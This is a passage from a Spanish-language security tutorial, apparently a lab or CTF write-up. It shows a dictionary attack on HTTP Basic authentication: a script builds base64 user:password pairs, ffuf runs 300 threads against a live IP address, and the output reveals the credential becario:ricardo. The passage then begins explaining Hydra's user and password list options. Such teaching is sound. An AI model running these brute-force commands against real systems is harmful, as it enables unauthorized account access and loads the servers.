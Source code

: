 ```text
$ cat myusers
becario
pablo
$ ./basicauth.py myusers 10k-most-common.txt > auth2.txt
Users: 2
Passwords: 10000
Combinations: 20000
```

Se usa el parámetro `-t 300` de *ffuf* por sugerencia de Luis Vacas ([@cybervaca_](https://twitter.com/cybervaca_)) con el fin de acelerar la búsqueda, aunque suponga una carga adicional para el servidor web. Como diría la famosa leyenda de advertencia en la publicidad, “rodado por especialistas en circuito cerrado”. Los experimentos, con gaseosa.

La lotería de credenciales, ahora sí, anuncia una combinación ganadora.

```text
$ ffuf -u http://34.253.120.147:1729/ -H "Authorization: Basic AUTH" -fc 401 -mc all -w auth2.txt:AUTH -t 300

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://34.253.120.147:1729/
 :: Header           : Authorization: Basic AUTH
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 300
 :: Matcher          : Response status: all
 :: Filter           : Response status: 401
________________________________________________

YmVjYXJpbzpyaWNhcmRv    [Status: 200, Size: 1300, Words: 155, Lines: 26]
:: Progress: [20000/20000] :: Job [1/1] :: 4000 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
$ echo YmVjYXJpbzpyaWNhcmRv | base64 -d
becario:ricardo
```

La corazonada sobre el usuario **becario** es correcta, con contraseña **ricardo**.  Obsérvese cómo hay que decodificar la solución, la única petición que no ha devuelto un error 401.

### Ataques por diccionario con Hydra

La herramienta *Hydra*, ya mencionada, es otra opción. El fichero de usuarios se indica mediante la opción `-L` y el de contraseñas con `-P`. Las variantes en minúsculas permiten especificar un valor único; por tanto, `-l becario` (ele minúscula) habría probado en exclusiva el usuario **becario** con todas las contraseñas del fichero que acompaña a `-P`.
